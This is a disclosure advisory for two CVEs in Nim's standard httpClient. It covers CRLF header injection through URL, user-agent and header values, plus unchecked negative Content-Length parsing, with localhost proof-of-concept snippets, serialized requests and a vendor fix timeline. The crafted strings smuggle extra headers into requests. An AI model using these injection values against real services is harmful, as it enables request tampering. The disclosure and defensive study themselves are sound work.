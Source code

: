 ```yaml
---
title: "Nim - stdlib Httpclient - Header Crlf Injection & Server Response Validation"
date: 2020-07-30T18:41:52+01:00

cve: ["CVE-2020-15693", "CVE-2020-15694"]
vendor: nim-lang
vendorUrl: https://nim-lang.org/
authors: tintinweb
affectedVersions: [ "<= 1.2.6" ]
vulnClass: CWE-93
---
```


# Vulnerability Note

## Summary 

The following vulnerability note discusses two classes of vulnerabilities found in the nim-lang `httpClient` standard library:

* a `CR-LF` injection in various arguments
* lack of response value validation when parsing server responses


## Details

### Description

The nim standard library `httpClient` is vulnerable to a `CR-LF` injection in the target url. This issue shares similarities with [CVE-2019-9740](https://nvd.nist.gov/vuln/detail/CVE-2019-9740) and [CVE-2019-9947](https://nvd.nist.gov/vuln/detail/CVE-2019-9947) reported for the Python language with the difference that more injection vectors exist. An injection is possible if the attacker controls any part of the url provided to `httpClient.[get|post|...]`, the user-agent, or custom http header names or values. 


Additionally, the library fails to properly validate the server response. For example, `httpClient.get().contentLength()` does not raise any error if a malicious server provides a negative `Content-Length`.


It should be noted that there seems to be a general lack of input validation (requests and response) and we expect more vectors to exist (e.g. see `generateHeaders`).


### Proof of Concept

Note: `nim c -r -d:ssl  client_inject.nim`

1) header injection in any url part

a) query

```nim
import httpClient
var client = newHttpClient()
var response = client.get("https://localhost:4433?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")  
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`

```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4

```

b) in the path

```nim
import httpClient
var client = newHttpClient()
var response = client.get("https://localhost:4433/a/1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`

```http
GET /a/1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4


```

2) header injection in user-agent, http headers

```nim
import httpClient
var client = newHttpClient("MyUserAgent\r\nX-Injected: myheader")
client.headers = newHttpHeaders({ "Content-Type": "applicat\r\nion/json" })
var response = client.get("https://localhost:4433?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

Serialized request: see `X-injected`, `TEST: 123`

```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
content-type: applicat
ion/json
user-agent: MyUserAgent
X-Injected: myheader


```

3) Integers are parsed as signed ints instead of natural numbers

The `httpClient` silently accepts invalid return parameters. For example, the content-length header is initially stored as a string without being verified to be in a proper range. When accessing it, it is being parsed as a signed integer and therefore allows to return negative numbers.

```nim
proc contentLength*(response: Response | AsyncResponse): int =
  ## Retrieves the specified response's content length.
  ##
  ## This is effectively the value of the "Content-Length" header.
  ##
  ## A ``ValueError`` exception will be raised if the value is not an integer.
  var contentLengthHeader = response.headers.getOrDefault("Content-Length")
  return contentLengthHeader.parseInt()
```

Request:
```http
GET /?a=1 HTTP/1.1
X-injected: header
TEST: 123 HTTP/1.1
Host: localhost:4433
Connection: Keep-Alive
content-length: 0
user-agent: Nim httpclient/1.2.4

```

Malicious server response: `Content-Length: -23`
```http
HTTP/1.1 200 OK
Date: Sun, 10 Oct 2010 23:26:07 GMT
Server: Apache/2.2.8 (Ubuntu) mod_ssl/2.2.8 OpenSSL/0.9.8g
Last-Modified: Sun, 26 Sep 2010 22:04:35 GMT
ETag: "45b6-834-49130cc1182c0"
Accept-Ranges: bytes
Content-Length: -23
Connection: close
Content-Type: text/html

Hello world!

```

Accessing the `Content-Length` yields the negative number -23.

```nim
import httpClient
var client = newHttpClient()
var response = client.get("http://localhost:4433/a/1 HTTP/1.1\r\nX-i\x00\x01YOnjected: header\r\nTEST: 123")
echo response.contentLength()
echo response.body()
```

output:

```
⇒  nim c -r -d:ssl  client_inject.nim
...
Hint:  [Link]
Hint: 112071 LOC; 1.103 sec; 112.691MiB peakmem; Debug build; proj: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject.nim; out: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject [SuccessX]
Hint: /Users/tintin/workspace/nim/test/issues/httpclient/inject/client_inject  [Exec]
-23
```

This might pose a risk to applications that are not checking whether response values are within sane bounds.




### Proposed Fix

- properly validate all parameters used in the module. Do not allow any context sensitive characters of the underlying protocol (e.g. `CR-LF`, `:` in header keys, ...)
- validate the server response. Use `parseNatural` instead of `parseInt` to parse positive natural numbers.

## Vendor Response

Vendor response: fixed in [v1.2.6](https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html)

### Timeline

```
JUL/09/2020 - contact nim developers @telegram; provided details, PoC
JUL/30/2020 - fixed in new release
```

## References

* [1] https://nim-lang.org/
* [2] https://nim-lang.org/install.html
* [3] https://en.wikipedia.org/wiki/Nim_(programming_language)
* [4] https://nim-lang.org/blog/2020/07/30/versions-126-and-108-released.html
